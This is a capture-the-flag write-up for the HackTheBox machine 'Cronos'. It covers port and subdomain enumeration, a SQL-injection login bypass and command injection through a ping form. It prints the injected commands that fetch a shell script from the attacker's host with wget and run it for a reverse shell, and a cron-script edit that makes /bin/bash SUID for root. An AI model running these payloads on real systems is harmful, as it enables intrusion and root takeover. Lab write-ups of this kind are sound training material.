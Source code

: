 # cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.39.02.png)

and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.58.27.png)

on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.03.10%20%281%29%20%281%29.png)

this below is my attempt on getting a `reverse shell` on the box

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.16.38%20%281%29%20%281%29.png)

and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.18.40%20%281%29.png)

and we have got a `config.php` here in our working folder, let's try to go to sql.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.20.57.png)

admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.21.45%20%281%29%20%281%29%20%281%29.png)

maybe we got something here.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.26.34.png)

nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.19.47%20%281%29%20%281%29.png)

so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.26.03.png)

and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.18.34.png)

